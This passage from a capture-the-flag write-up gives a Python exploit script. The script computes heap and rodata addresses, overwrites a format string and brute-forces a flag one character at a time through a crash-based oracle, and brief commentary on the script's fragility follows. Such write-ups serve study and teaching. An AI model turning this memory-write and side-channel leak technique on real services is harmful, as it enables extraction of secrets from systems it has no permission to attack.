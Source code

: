 ```python
    # print('.rodata : ', hex(_rodata_address))
    # print('.heap : ', hex(_heap_address))

    flag_address = _heap_address + heap_delta

    format_str_offset = 188
    format_str_address = _rodata_address + format_str_offset

    # flag = flag[index:]

    # TODO uncomment
    conn.send(f'{hex(flag_address - index)} {flag_length}\n'.encode())

    # '0x%llx' -> {flag[index]}'x%llx'
    conn.send(f'{hex(format_str_address)} 1\n'.encode())

    # # check conn is alive
    # try:
    #     conn.recv()
    # except EOFError:
    #     assert False

    for i in range(5):
        try:
            conn.send(f'{ch}x123 1\n'.encode()) # test only is sscanf fails or not
            sleep(0.2)
        except EOFError:
            return False

    return True

partial_flag = list('CTF{') + ['*'] * flag_length

for i in range(4, flag_length):

    if partial_flag[i] != '*':
        assert is_nth_char(i, partial_flag[i])
        continue

    for ch in string.ascii_lowercase + string.ascii_uppercase + string.digits + '_':
        if is_nth_char(i, ch):
            print("Success:", i, ch)
            partial_flag[i] = ch
            break
        else:
            print("Failure:", i, ch)

        print("Flag: ", ''.join(partial_flag))

    print("Flag: ", ''.join(partial_flag))
```

The hardest / more fragile part of the script was trying to detect if the connection was over or not.

This predicted all the flag but the last character, since it was not in the set of candidates we were trying. That was guessed manually.
